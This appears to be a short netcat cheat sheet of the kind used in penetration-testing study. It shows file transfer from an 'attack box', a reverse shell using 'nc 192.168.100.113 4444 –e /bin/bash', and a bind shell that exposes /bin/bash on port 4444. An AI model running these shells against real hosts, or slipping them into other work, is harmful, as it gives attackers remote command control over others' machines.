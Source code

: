 # netcat

File Transfer With Netcat
--------------------------
Netcat connection to transfer a text file.
Let’s assume we have remote command execution on the target host and we want to transfer a file from the attack box to the host.


--target machine saves the input to the file
nc -lvp 8080 > /root/Desktop/transfer.txt

--attacker sends the input from the file
nc 192.168.100.107 8080 < /root/Desktop/transfer.txt


Netcat reverse shell
--------------------

    Setup a Netcat listener.
    Connect to the Netcat listener from the target host.
    Issue commands on the target host from the attack box.

First we setup a Netcat listener on the attack box which is listening on port 4444 with the following command:
nc -lvp 4444

Than we issue the following command on the target host to connect to our attack box (remember we have remote code execution on this box):
nc 192.168.100.113 4444 –e /bin/bash


Netcat bind shell
------------------

    Bind a bash shell to port 4444 using Netcat.
    Connect to the target host on port 4444 from the attack box.
    Issue commands on the target host from the attack box.

target:
nc -lvp 4444 -e /bin/bash

attacker:
nc 127.0.0.1 4444

	
